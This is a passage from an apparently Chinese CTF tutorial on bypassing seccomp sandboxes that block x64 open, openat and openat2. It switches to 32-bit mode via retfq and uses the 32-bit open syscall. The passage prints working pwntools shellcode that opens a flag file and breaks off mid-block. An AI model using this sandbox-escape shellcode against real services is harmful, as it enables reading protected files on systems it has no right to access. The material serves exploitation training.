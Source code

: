 # 0x05. execve + open + openat + openat2

如果题目禁用了x64的所有3个打开文件的系统调用，此时还有一种情况使得我们可以成功打开文件并获取文件描述符：当seccomp没有禁用x64的fstat系统调用时，可以通过将程序暂时转换为32位模式再通过`open`系统调用打开文件，因为32位的`open`系统调用与64位的不同，32位`open`的系统调用号为5，对应x64的系统调用表中为`fstat`系统调用。

`retfq`指令，在x86-64中可用于将程序从64位长模式转换为32位模式，在转换时需要注意修改栈地址为32位地址，并向栈中保存一些特定值，在64位系统中，`cs`寄存器的值为0x23时表示当前程序处于32位状态，值为0x33时表示当前程序处于64位状态。在执行`retfq`指令之前，我们就应该修改`rsp`，并将0x23和要执行的32位指令地址push进栈。在执行`retfq`后，程序将自动转到32位环境中工作。在32位代码执行结束后，如果需要返回到64位状态，可通过`jmp 0x33:xxxxx ; ret`的指令返回到64位代码。

注意：如果在执行`retfq`时`rsp`高位的任何值都会被直接舍弃，只取低32位作为新的栈地址，而这个地址通常是不能预先获取的，因此`retfq`前重新赋值`rsp`很有必要。

示例：

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

shellcode_64_1 = '''
    mov rdi, 0x10000
    mov rsi, 0x1000
    mov rdx, 7
    mov r10, 0x21
    mov r8, 0xFFFFFFFF
    xor r9, r9
    push SYS_mmap
    pop rax
    syscall
    
    cld
    mov rcx, 0x200
    mov rdi, 0x10000
    mov rsi, 0x600000000100
    rep movsb
    
    mov rsp, 0x10800
    push 0x23
    push 0x10000
    pop rax
    push rax
    retfq
'''

shellcode_32 = '''
	mov eax, 0x6761
	push eax
	mov eax, 0x6c662f2e
	push eax
	mov ebx, esp
	xor ecx, ecx
	xor edx, edx
	mov eax, 5
	int 0x80
	jmp 0x33:0x10100
	ret
'''

shellcode_64_2 = '''
    mov rdi, 3
    push 0x100
    lea rbx, [rsp-8]
    push rbx
    mov rsi, rsp
    mov rdx, 1
```